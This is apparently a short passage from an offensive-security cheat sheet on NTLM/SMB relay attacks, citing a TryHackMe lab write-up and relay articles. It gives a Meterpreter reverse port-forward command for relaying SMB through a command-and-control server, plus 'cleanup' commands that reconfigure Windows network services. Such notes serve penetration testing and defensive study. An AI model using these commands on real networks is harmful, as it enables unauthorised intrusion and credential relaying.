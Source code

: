 Add a reverse port forward to 445 to relay SMB attack via the command and control server (metasploit)

`meterpreter > portfwd add -R -L <bind_target_IP> -l 445 -p 445`

- **Cleanup**

```
meterpreter > shell

C:\> sc config lanmanserver start=auto

C:\> sc start lanmanworkstation

C:\> sc config lanmanworkstation start=auto

C:\> sc start netlogon
```

---
## References

- [Tryhackme HOLO](https://stimpz0r.com/tryhackme-holo/)

- [How to Exploit Active Directory ACL Attack Paths Through LDAP Relaying Attacks](https://www.praetorian.com/blog/how-to-exploit-active-directory-acl-attack-paths-through-ldap-relaying-attacks/)

https://rastamouse.me/ntlm-relaying-via-cobalt-strike/

- [Relaying NTLM to MSSQL](https://blog.compass-security.com/2023/10/relaying-ntlm-to-mssql/)